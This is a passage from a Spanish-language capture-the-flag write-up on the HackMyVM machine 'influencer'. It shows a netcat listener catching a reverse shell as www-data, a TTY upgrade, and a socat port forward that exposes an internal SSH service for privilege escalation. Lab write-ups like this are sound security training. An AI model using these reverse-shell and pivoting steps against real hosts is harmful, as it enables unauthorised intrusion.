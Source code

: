 En mi máquina atacante creo un listener y al recargar el blog, obtengo una shell como **www-data**.

```
$ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.112: inverse host lookup failed: Unknown host
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.112] 54752
Linux influencer 5.15.0-73-generic #80-Ubuntu SMP Mon May 15 15:18:26 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 12:15:47 up 29 min,  0 users,  load average: 0.00, 0.02, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script -qc /bin/bash /dev/null
www-data@influencer:/$ :)
```

## Escalación de privilegios

Una vez dentro, compruebo los puertos abiertos y veo que el puerto 1212 solo está disponible desde localhost.

```
www-data@influencer:/$ ss -tuln
Netid State  Recv-Q Send-Q                     Local Address:Port Peer Address:PortProcess
udp   UNCONN 0      0                          127.0.0.53%lo:53        0.0.0.0:*          
udp   UNCONN 0      0                   192.168.1.112%enp0s3:68        0.0.0.0:*          
udp   UNCONN 0      0      [fe80::a00:27ff:fe50:6512]%enp0s3:546          [::]:*          
tcp   LISTEN 0      4096                       127.0.0.53%lo:53        0.0.0.0:*          
tcp   LISTEN 0      128                            127.0.0.1:1212      0.0.0.0:*          
tcp   LISTEN 0      32                               0.0.0.0:2121      0.0.0.0:*          
tcp   LISTEN 0      80                             127.0.0.1:3306      0.0.0.0:*          
tcp   LISTEN 0      511                                    *:80              *:*
```

Casualmente **socat** está instalado, por lo que realizar una redirección de puertos es sencillo.

```
www-data@influencer:/$ which socat
/usr/bin/socat
www-data@influencer:/$ socat TCP-LISTEN:4444,fork TCP:localhost:1212 & 
socat TCP-LISTEN:4444,fork TCP:localhost:1212 &
[1] 13249
```

Al intentar acceder al puerto redirigido me doy cuenta que es un servidor ssh.

![img](/imgs/write-ups/hackmyvm/influencer/influencer_3.png#center)

